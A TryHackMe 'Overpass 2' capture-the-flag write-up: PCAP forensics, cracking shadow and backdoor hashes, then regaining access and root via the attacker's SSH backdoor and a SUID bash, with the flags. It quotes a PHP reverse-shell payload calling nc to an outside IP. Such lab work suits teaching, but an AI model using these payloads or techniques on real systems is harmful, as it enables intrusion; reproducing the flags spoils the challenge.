


#tryhackme #bettercap #wireshark #forensics #hashcat #go-lang #suid #linux #ssh-backdoor #pcap 

# Recon
---

# Forensics - Analyze the PCAP
---

Use **bettercap** to parse packets (because I love **bettercap**)

```bash
sudo bettercap
set net.sniff.source overpass2.pcapng
net.sniff on
```

## Questions

### What was the URL of the page they used to upload a reverse shell?



> /development/

### What payload did the attacker use to gain access?


```bash
vi payload.txt

# Press ":"
# Search and replace new lines with:
# %/s/\n
```



> <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

### What password did the attacker use to privesc?

From previous result, we acknowledge the attacker's ip is `192.168.170.145`

This is where attacker visit the reverse shell payload


Follow tcp steam on the next TCP connection


- SSH Creds: `james`:`whenevernoteartinstant`

> whenevernoteartinstant

### How did the attacker establish persistence?


> https://github.com/NinjaJc01/ssh-backdoor

### Using the fasttrack wordlist, how many of the system passwords were crackable?


Users with passwords:

```bash
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

```bash
┌──(kali㉿kali)-[~/thm/Overpass-2-Hacked]
└─$ vi shadow.txt

┌──(kali㉿kali)-[~/thm/Overpass-2-Hacked]
└─$ john shadow.txt --wordlist=/opt/wordlists/fasttrack.txt
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
4g 0:00:00:00 DONE (2023-06-22 06:41) 11.42g/s 634.2p/s 3171c/s 3171C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

> 4

# Research - Analyse the code
---

```bash
┌──(kali㉿kali)-[~/thm/Overpass-2-Hacked]
└─$ git clone https://github.com/NinjaJc01/ssh-backdoor
Cloning into 'ssh-backdoor'...
remote: Enumerating objects: 18, done.
remote: Counting objects: 100% (18/18), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 18 (delta 4), reused 9 (delta 1), pack-reused 0
Receiving objects: 100% (18/18), 3.14 MiB | 6.21 MiB/s, done.
Resolving deltas: 100% (4/4), done.

┌──(kali㉿kali)-[~/thm/Overpass-2-Hacked]
└─$ cd ssh-backdoor

┌──(kali㉿kali)-[~/thm/Overpass-2-Hacked/ssh-backdoor]
└─$ ls -la
total 6508
drwxr-xr-x 3 kali kali    4096 Jun 22 06:47 .
drwxr-xr-x 3 kali kali    4096 Jun 22 06:47 ..
-rw-r--r-- 1 kali kali 6634961 Jun 22 06:47 backdoor
-rw-r--r-- 1 kali kali     104 Jun 22 06:47 build.sh
drwxr-xr-x 8 kali kali    4096 Jun 22 06:47 .git
-rw-r--r-- 1 kali kali    2788 Jun 22 06:47 main.go
-rw-r--r-- 1 kali kali     109 Jun 22 06:47 README.md
-rw-r--r-- 1 kali kali     241 Jun 22 06:47 setup.sh

┌──(kali㉿kali)-[~/thm/Overpass-2-Hacked/ssh-backdoor]
└─$ vi main.go
```

## Questions

### What's the default hash for the backdoor?


>bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3

### What's the hardcoded salt for the backdoor?


> 1c362db832f3f864c8c2fe05f2002a05

### What was the hash that the attacker used? - go back to the PCAP for this!


>6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

### Crack the hash using rockyou and a cracking tool of your choice. What's the password?

Check the hash's format with salt


- It's using `sha512` 
- Format: `$password$salt`

Look up **hashcat**'s [Example Hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)


```bash
┌──(kali㉿kali)-[~/thm/Overpass-2-Hacked]
└─$ echo '6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05' > attacer_hash.txt
```

```bash
┌──(kali㉿kali)-[~/thm/Overpass-2-Hacked/ssh-backdoor]
└─$ hashcat attacer_hash.txt /opt/wordlists/fasttrack.txt -m 1710
...
* Runtime...: 2 secs

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1710 (sha512($pass.$salt))
...
```

> november16

# Attack - Get back in!
---

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There's flags on the box that Overpass can't afford to lose by formatting the server!

## Questions

### The attacker defaced the website. What message did they leave as a heading?


> H4ck3d by CooctusClan

### What's the user flag?

```bash
┌──(kali㉿kali)-[~/thm/Overpass-2-Hacked]
└─$ sshpass -p november16 ssh -o "StrictHostKeyChecking no" -p 2222 james@10.10.153.34
Unable to negotiate with 10.10.153.34 port 2222: no matching host key type found. Their offer: ssh-rsa
```

- A Google Search solved the issue

```bash
┌──(kali㉿kali)-[~/thm/Overpass-2-Hacked]
└─$ sshpass -p november16 ssh -o "StrictHostKeyChecking no" -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa -p 2222 james@10.10.153.34
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ id
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
james@overpass-production:/home/james/ssh-backdoor$ cat ../user.txt
thm{d119b4fa8c497ddb0525f7ad200e6567}
james@overpass-production:/home/james/ssh-backdoor$
```

> thm{d119b4fa8c497ddb0525f7ad200e6567}

### What's the root flag?

```bash
james@overpass-production:/home/james$ find / -type f -perm -4000 -ls 2>/dev/null
      499     44 -rwsr-xr-x   1 root     root        44528 Mar 22  2019 /usr/bin/chsh
      844    148 -rwsr-xr-x   1 root     root       149080 Jan 31  2020 /usr/bin/sudo
      497     76 -rwsr-xr-x   1 root     root        76496 Mar 22  2019 /usr/bin/chfn
      739     24 -rwsr-xr-x   1 root     root        22520 Mar 27  2019 /usr/bin/pkexec
      880     20 -rwsr-xr-x   1 root     root        18448 Jun 28  2019 /usr/bin/traceroute6.iputils
      703     40 -rwsr-xr-x   1 root     root        37136 Mar 22  2019 /usr/bin/newuidmap
      701     40 -rwsr-xr-x   1 root     root        37136 Mar 22  2019 /usr/bin/newgidmap
      719     60 -rwsr-xr-x   1 root     root        59640 Mar 22  2019 /usr/bin/passwd
      592     76 -rwsr-xr-x   1 root     root        75824 Mar 22  2019 /usr/bin/gpasswd
      446     52 -rwsr-sr-x   1 daemon   daemon      51464 Feb 20  2018 /usr/bin/at
      702     40 -rwsr-xr-x   1 root     root        40344 Mar 22  2019 /usr/bin/newgrp
     1254    428 -rwsr-xr-x   1 root     root       436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
     7178     44 -rwsr-xr--   1 root     messagebus    42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1258     16 -rwsr-xr-x   1 root     root          14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
     7392    100 -rwsr-xr-x   1 root     root         100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
     1072     12 -rwsr-xr-x   1 root     root          10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   262241     44 -rwsr-xr-x   1 root     root          43088 Jan  8  2020 /bin/mount
   262214     32 -rwsr-xr-x   1 root     root          30800 Aug 11  2016 /bin/fusermount
   262281     44 -rwsr-xr-x   1 root     root          44664 Mar 22  2019 /bin/su
   262265     64 -rwsr-xr-x   1 root     root          64424 Jun 28  2019 /bin/ping
   262299     28 -rwsr-xr-x   1 root     root          26696 Jan  8  2020 /bin/umount
   268869   1088 -rwsr-sr-x   1 root     root        1113504 Jul 22  2020 /home/james/.suid_bash
```

The attacker left a suid file as a backdoor for privilege escalation

```bash
james@overpass-production:/home/james$ /home/james/.suid_bash -p
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)
.suid_bash-4.4# cat /root/root.txt
thm{d53b2684f169360bb9606c333873144d}
.suid_bash-4.4#
```

